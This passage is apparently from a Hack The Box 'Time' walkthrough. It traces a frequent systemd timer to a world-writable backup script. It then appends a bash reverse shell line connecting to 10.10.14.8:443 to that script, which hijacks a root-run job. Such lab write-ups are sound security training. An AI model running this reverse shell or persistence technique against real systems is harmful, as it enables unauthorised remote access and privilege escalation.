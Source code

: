 

This timer was last run four seconds ago and was going to run again in
five seconds. On HTB machines, any timer less than five minutes is worth
looking at.

### timer_backup

The service will be defined in a file in `/etc/systemd`:



    pericles@time:/$ find /etc/systemd/ -name timer_backup.service
    /etc/systemd/system/timer_backup.service



That file is relatively simple:



    [Unit]
    Description=Calls website backup
    Wants=timer_backup.timer
    WantedBy=multi-user.target

    [Service]
    ExecStart=/usr/bin/systemctl restart web_backup.service



The `Wants` and `WantedBy` describes the relation of this service to
others as far as starting. `ExecStart` describes what it runs. In this
case, it's just restarting another service, `web_backup.service`. That
config:



    [Unit]
    Description=Creates backups of the website

    [Service]
    ExecStart=/bin/bash /usr/bin/timer_backup.sh



It's running `/usr/bin/timer_backup.sh`, a shell script, which is
writable:



    pericles@time:/$ ls -l /usr/bin/timer_backup.sh
    -rwxrw-rw- 1 pericles pericles 88 Feb  9 22:15 /usr/bin/timer_backup.sh



### Initial Shell

I'll add a reverse shell to the end of the script:



    pericles@time:/$ echo -e '\nbash -i >& /dev/tcp/10.10.14.8/443 0>&1' >> /usr/bin/timer_backup.sh


